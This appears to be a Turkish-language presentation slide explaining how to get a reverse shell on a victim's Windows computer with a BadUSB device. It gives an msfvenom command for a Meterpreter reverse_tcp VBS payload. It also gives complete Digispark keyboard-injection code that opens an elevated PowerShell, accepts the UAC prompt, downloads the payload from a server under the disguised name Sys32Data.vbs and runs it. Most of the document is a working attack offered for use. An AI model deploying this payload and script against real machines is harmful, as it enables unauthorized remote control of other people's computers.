

# Hedef sistem üzerinde ters kabuk (reverse shell) alma yöntemi
Yerel ağda mevcut olan bilgisayardan belirlenen port dinlemeye alınarak hedef bilgisayarın bize bağlantı kurması sağlanır. Saldırı için izlenmesi gereken yol ve kurulabilecek strateji aşağıdaki gibidir;
-	Msfvenom kullanılarak revershell için bir payload oluşturulur. Bu payload’un .exe uzantısı yerine .vbs uzantılı olmasına dikkat edilir.
# msfvenom -p windows/meterpreter/reverse_tcp -f vbs –smallest LHOST= “saldırgan ip”   LPORT=444 -o /root/Desktop/payload.txt
-	Oluşturulan payload yerelde ağda bulunan bir sunucuya yada internette bir sunucuya yüklenir.
-	Kurbana verilecek Badusb’nin içerisine yazılacak script bu payload’ı internetten indirerek çalıştırmalıdır.
-	Bu esnada hazırlanan payload’u hedef sistem takıp çalıştırmadan önce kendi sisteminde uygun port seçilip dinlemeye alınır.

#include "DigiKeyboard.h"
void setup() {
}
void loop() {
DigiKeyboard.sendKeyStroke(0);
DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT); // Windows + R kombinasyonunun tuşla
  DigiKeyboard.delay(2000);  // 2 saniye bekle
  DigiKeyboard.print("powershell"); // Açılan Çalıştır penceresine powershell yaz.
   DigiKeyboard.delay(2000);  // 2 saniye bekle
  DigiKeyboard.sendKeyStroke(KEY_ENTER,MOD_CONTROL_LEFT|MOD_SHIFT_LEFT); // powershell’i yönetici olarak çalıştırmak için
  DigiKeyboard.delay(2000);
 DigiKeyboard.sendKeyStroke(KEY_LEFT_ARROW); // sol ok tuşuna bas.
 DigiKeyboard.delay(2000);
 DigiKeyboard.sendKeyStroke(KEY_ENTER); //Enter’a bas.
 DigiKeyboard.delay(2000);
 DigiKeyboard.print("$client = new-object System.Net.WebClient");
 DigiKeyboard.sendKeyStroke(KEY_ENTER);
 DigiKeyboard.delay(1000);
 DigiKeyboard.print("$client.DownloadFile('Dosyanın indirileceği URL adresini gir','Sys32Data.vbs')");
 DigiKeyboard.sendKeyStroke(KEY_ENTER);
 DigiKeyboard.print("start Sys32Data.vbs");
 DigiKeyboard.sendKeyStroke(KEY_ENTER);
 DigiKeyboard.delay(1000);
 DigiKeyboard.sendKeyStroke(KEY_F4|MOD_ALT_LEFT); //kapat
 DigiKeyboard.delay(50000);
}